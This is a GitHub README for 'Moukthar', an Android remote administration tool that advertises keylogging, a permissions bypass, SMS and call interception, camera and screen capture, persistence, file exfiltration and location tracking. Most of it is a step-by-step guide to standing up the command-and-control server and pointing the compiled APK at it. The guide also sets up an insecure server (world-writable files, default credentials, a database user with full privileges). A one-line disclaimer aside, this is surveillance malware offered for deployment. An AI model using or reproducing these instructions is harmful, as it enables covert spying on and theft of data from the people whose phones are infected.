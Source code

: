 # 📱 Moukthar

**Moukthar** is a remote administration tool (RAT) for Android devices, offering a comprehensive suite of surveillance and control features.

> ⚠️ **Disclaimer:** This tool is intended for educational and research purposes only. Unauthorized use is strictly prohibited.

---

## 🚀 Features

- 🔓 Permissions bypass (Android 12 and below)  
  [Watch Demo](https://youtube.com/shorts/-w8H0lkFxb0)
- 🧠 Keylogger  
  [Watch Demo](https://youtube.com/shorts/Ll9dNrkjFOA)
- 🔔 Notification listener  
- 📩 SMS listener  
- 📞 Phone call recording  
- 📸 Image capturing & screenshots  
- 🎥 Video recording  
- ♻️ Persistence  
- 👥 Read & write contacts  
- 📦 List installed applications  
- ⬇️⬆️ File upload & download  
- 📍 Get device location  

[![Tutorial Video](https://img.youtube.com/vi/ykOx19hAaD4/0.jpg)](https://youtu.be/ykOx19hAaD4)

---

## 🛠️ Installation

### 1. Clone Repository
```bash
git clone https://github.com/Tomiwa-Ot/moukthar.git
```

### 2. Install Dependencies

```bash
# Update package lists
sudo apt update

# Install Apache2
sudo apt install -y apache2

# Install MySQL (MariaDB)
sudo apt install -y mariadb-server mariadb-client

# Install PHP and common extensions
sudo apt install -y php php-common php-cli php-mysql php-curl php-json php-mbstring php-xml php-zip

# Enable Apache rewrite module
sudo a2enmod rewrite
sudo systemctl restart apache2

# Install Composer
sudo apt install -y curl
curl -sS https://getcomposer.org/installer | sudo php -- --install-dir=/usr/local/bin --filename=composer
```

### 3. Configure Server Files

```bash
mv moukthar/Server/* /var/www/html/
cd /var/www/html/c2-server && composer install
cd /var/www/html/web-socket/ && composer install
cd /var/www
chown -R www-data:www-data .
chmod -R 777 .
```

> 💡 Default credentials:  
> **Username:** `android`  
> **Password:** `android`

---

### 4. Database Setup

```sql
CREATE USER 'android'@'localhost' IDENTIFIED BY 'your-password';
GRANT ALL PRIVILEGES ON *.* TO 'android'@'localhost';
FLUSH PRIVILEGES;
```

- Edit DB credentials in:  
  - `c2-server/.env`  
  - `web-socket/.env`

- Import database:
  ```bash
  mysql -u android -p < database.sql
  ```

---

### 5. WebSocket Server

```bash
# Start manually
php Server/web-socket/App.php

# OR run as service
sudo mv Server/websocket.service /etc/systemd/system/
sudo systemctl daemon-reload
sudo systemctl enable websocket.service
sudo systemctl start websocket.service
```

---

### 6. Apache Configuration

#### `000-default.conf`
```apache
<VirtualHost *:80>
    ServerAdmin webmaster@localhost
    DocumentRoot /var/www/html/c2-server
    DirectoryIndex app.php
    Options -Indexes

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

#### `apache2.conf`
```apache
# Comment this block:
# <Directory />
#     Options FollowSymLinks
#     AllowOverride None
#     Require all denied
# </Directory>

# Add:
<Directory /var/www/html/c2-server>
    Options -Indexes
    DirectoryIndex app.php
    AllowOverride All
    Require all granted
</Directory>
```

---

### 7. PHP Config Adjustments

Edit: `/etc/php/*/apache2/php.ini`

```ini
upload_max_filesize = 128M
post_max_size = 129M
```

---

### 8. Update Client & Server Addresses

#### In `c2-server/src/View/home.php` and `features/files.php`:
```js
const ws = new WebSocket('ws://YOUR_IP_ADDRESS:8080');
```

#### In `functionality/Utils.java`:
```java
public static final String C2_SERVER = "http://YOUR_IP_ADDRESS";
public static final String WEB_SOCKET_SERVER = "ws://YOUR_IP_ADDRESS:8080";
```

---

### 9. Restart Apache

```bash
sudo a2enmod rewrite
sudo service apache2 restart
```

---

### 10. Compile Client

- Open the project in **Android Studio**
- Update server IPs
- Build & deploy APK

---

## 📸 Screenshots

| Login | Dashboard | Installed Apps |
|-------|-----------|----------------|
| ![](screenshots/login.png) | ![](screenshots/c2.png) | ![](screenshots/apps.png) |

| Camera | Contacts | Files |
|--------|----------|-------|
| ![](screenshots/camera.png) | ![](screenshots/contacts.png) | ![](screenshots/files.png) |

| Notifications | SMS | Video |
|---------------|-----|-------|
| ![](screenshots/notifications.png) | ![](screenshots/sms.png) | ![](screenshots/video.png) |

---

## 📝 TODO

- [ ] Auto-scroll logs on dashboard  
- [ ] Fix screenshot functionality  
- [ ] Improve image/video capture when app is not focused  
- [ ] Fix download issues with `DownloadManager`  
- [ ] Fix directory listing to show all contents  
